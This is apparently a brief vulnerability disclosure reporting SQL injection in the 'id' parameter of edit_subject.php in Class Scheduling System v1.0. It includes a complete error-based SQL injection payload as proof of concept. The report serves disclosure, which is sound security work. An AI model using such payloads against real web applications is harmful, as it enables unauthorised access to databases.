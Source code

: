 # Class Scheduling System v1.0 has SQL injection

BUG_Author：zhulielie

Website source address: https://www.sourcecodester.com/php/5175/class-scheduling-system.html

Vulnerability File: /online_class_scheduling_system/admin/edit_subject.php

Vulnerability location: /online_class_scheduling_system/admin/edit_subject.php?id

Payload: id=23' and (select 1 from(select count(*),concat(0x71727374,(select (elt(333=333,1))),0x65666768,floor(rand(0)*2))x from information_schema.plugins group by x)x) and 'b'='b

Error-based SQL injection is successful, proving the existence of SQL injection vulnerabilities

![image](https://github.com/zhulielie/CVEReport/blob/main/sql.png)
